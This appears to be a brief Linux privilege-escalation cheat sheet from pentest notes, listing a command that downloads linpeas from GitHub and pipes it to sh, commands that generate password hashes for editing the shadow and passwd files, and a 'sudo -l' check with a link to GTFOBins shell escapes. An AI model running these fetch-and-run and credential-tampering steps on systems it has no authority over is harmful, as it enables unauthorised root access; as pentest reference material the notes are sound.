 Tool Scan [Linpeas]
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Shadow File
```bash
mkpasswd -m sha-512 newpasswordhere
```

Passwd File
```bash
openssl passwd newpasswordhere
```

 Sudo - Shell Escape Sequences [GTFOBins](https://gtfobins.github.io/)
```bash
sudo -l 
```
